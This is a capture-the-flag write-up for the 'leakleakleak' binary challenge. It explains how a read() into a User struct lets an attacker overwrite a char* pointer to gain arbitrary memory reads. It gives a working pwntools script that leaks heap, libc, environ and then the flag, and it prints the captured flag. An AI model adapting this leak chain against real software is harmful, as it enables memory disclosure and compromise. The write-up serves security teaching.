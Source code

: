 The vulnerability is that in `read(STDIN_FILENO, user, sizeof(*user));`, the `description` member in `User` structure, which is `char*`, can be manipulated by receiving input equal to the size of the `User` structure.

We can use AAR with `printf("%s\n", user->description);`.

### Exploit
We have AAR. So I use AAR to `leak heap -> leak libc -> leak environ -> leak flag`.
```python
from pwn import *

p = process("./leakleakleak")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
context.terminal = ['tmux', 'splitw', '-h']
context.log_level = 'debug'
# p = remote("32cb2f5.678470.xyz", 32411)

pay = b"a" * 33
p.sendafter(b"?", pay)
p.recvuntil(pay)
res = (u64(p.recvn(5).ljust(8, b"\x00")) << 8)
print(hex(res))
p.sendlineafter(b"?", b"Y")

pay = b"a" * 32 + p64(res+ 0x118)
p.sendafter(b"?", pay)
p.recvuntil(b":3\n")
res = u64(p.recvn(6).ljust(8, b"\x00"))
print(hex(res))

pay = b"a" * 32 + p64(res+ 0x6e80)
p.sendafter(b"?", pay)
p.recvuntil(b":3\n")
res = u64(p.recvn(6).ljust(8, b"\x00"))
print("environ" + hex(res))
p.sendlineafter(b"?", b"Y")

pay = b"a" * 32 + p64(res-0x30)
p.sendafter(b"?", pay)
p.recvuntil(b":3\n")
res = u64(p.recvn(6).ljust(8, b"\x00"))
print(hex(res))
#gdb.attach(p)
pay = b"a" * 32 + p64(res+ 0x2fab)
p.sendafter(b"?", pay)

p.interactive()
```
{{< admonition note "flag" true >}}
`wxmctf{woooOoOoO0O0O00_just_M3_4nd_Y0U_tog3th3r_in_MY_r00m_x3c}`
{{< /admonition >}}
